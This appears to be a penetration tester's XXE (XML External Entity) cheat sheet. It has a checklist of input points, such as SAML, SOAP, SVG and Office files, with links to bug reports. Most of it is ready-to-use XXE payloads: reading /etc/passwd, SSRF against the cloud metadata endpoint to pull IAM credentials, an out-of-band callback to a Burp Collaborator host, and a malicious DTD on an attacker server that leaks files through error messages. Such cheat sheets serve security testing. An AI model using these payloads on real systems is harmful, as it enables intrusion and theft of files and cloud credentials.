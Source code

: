 # XML External Enteties (XXE)

There are various types of XXE attacks: 
- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.


### Places to try to submit XML

- [ ] Submit XML requests where json is.
 - https://blog.netspi.com/playing-content-type-xxe-json-endpoints/
 - https://hackerone.com/reports/106797
- [ ] Change GET to POST and submit xml.
- https://hackerone.com/reports/154096
- [ ] Via SAML assertions.
- https://seanmelia.files.wordpress.com/2016/01/out-of-band-xml-external-entity-injection-via-saml-redacted.pdf & https://httpsonly.blogspot.se/2017/01/0day-writeup-xxe-in-ubercom.html
- [ ] In SOAP requests
- https://hackerone.com/reports/36450
- [ ] In SVG files.
 - http://esoln.net/Research/2017/03/30/xxe-in-lithium-community-platform/
 - https://0xatul.github.io/posts/2020/02/external-xml-entity-via-file-upload-svg/
- [ ] In PDF files
- [ ] In MS Office files, word, excel, ppt files. 
- https://hackerone.com/reports/105434
- https://hackerone.com/reports/334488
- [ ] Logins over xml
- https://hackerone.com/reports/105753
- https://hackerone.com/reports/105980

## Payloads

**Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
]><stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://devpey9157asm7owheb6tcwh58byzn.burpcollaborator.net">
]><stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.**

Host the following malicious dtd on the attack server:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error; 
```

Invoke the malicious dtd:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://attacker-server"> %xxe;]><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

